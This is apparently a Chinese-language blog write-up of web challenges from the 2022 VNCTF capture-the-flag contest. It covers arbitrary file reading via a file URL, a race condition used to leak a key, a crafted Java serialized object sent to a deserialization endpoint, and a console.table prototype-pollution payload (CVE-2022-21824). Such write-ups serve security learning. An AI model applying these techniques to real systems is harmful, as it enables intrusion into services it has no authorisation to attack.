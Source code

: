 # 2022-VNCTF-Web-Writeup

## 前言

20多天没发过博客了。。真实的原因是。。。打了20多天的游戏一点没学习。。。不能再颓废了。。。

## GameV4.0

![image-20220212201732637](2022-VNCTF-Web-Writeup.assets/image-20220212201732637.png)

base64解密就行

## easyJ4va

`/file?url=`可以读文件，而且Java的file协议可以列目录，所以直接读tomcat就行：

![image-20220212135135512](2022-VNCTF-Web-Writeup.assets/image-20220212135135512.png)

然后审代码，首先是key的获取：

```java
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String reqName = req.getParameter("name");
        if (reqName != null) {
            this.name = reqName;
        }

        if (Secr3t.check(this.name)) {
            this.Response(resp, "no vnctf2022!");
        } else {
            if (Secr3t.check(this.name)) {
                this.Response(resp, "The Key is " + Secr3t.getKey());
            }

        }
    }
```

条件竞争即可了：

![img](2022-VNCTF-Web-Writeup.assets/0}04MX28O9M}@M_76`NXYC5.png)

然后就是反序列化：

```java
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String key = req.getParameter("key");
        String text = req.getParameter("base64");
        if (Secr3t.getKey().equals(key) && text != null) {
            Decoder decoder = Base64.getDecoder();
            byte[] textByte = decoder.decode(text);
            User u = (User)SerAndDe.deserialize(textByte);
            if (this.user.equals(u)) {
                this.Response(resp, "Deserialize…… Flag is " + Secr3t.getFlag().toString());
            }
        } else {
            this.Response(resp, "KeyError");
        }

    }
```

```java
    private void readObject(ObjectInputStream s) throws IOException, ClassNotFoundException {
        s.defaultReadObject();
        this.height = (String)s.readObject();
    }
```

本地多写个`writeObject`就行了：

```java
    private void writeObject(ObjectOutputStream s) throws Exception{
        s.defaultWriteObject();
        s.writeObject("180");
    }
```

```java
        Object user = new User("m4n_q1u_666","666","123");
        byte[] data = SerAndDe.serialize(user);
        String s = Base64.getEncoder().encodeToString(data);
        System.out.println(s);
```

![image-20220212135342871](2022-VNCTF-Web-Writeup.assets/image-20220212135342871.png)

## gocalc0

没看懂啥意思。。。不知道咋回事把session给b64解码一下然后中间解码一下就给了flag:

![image-20220212175327569](2022-VNCTF-Web-Writeup.assets/image-20220212175327569.png)

## newcalc0

https://nodejs.org/en/blog/vulnerability/jan-2022-security-releases/#prototype-pollution-via-console-table-properties-low-cve-2022-21824

```
e=
1;
console.table({"a":{"feng":"abc"}},["__proto__"]);
```

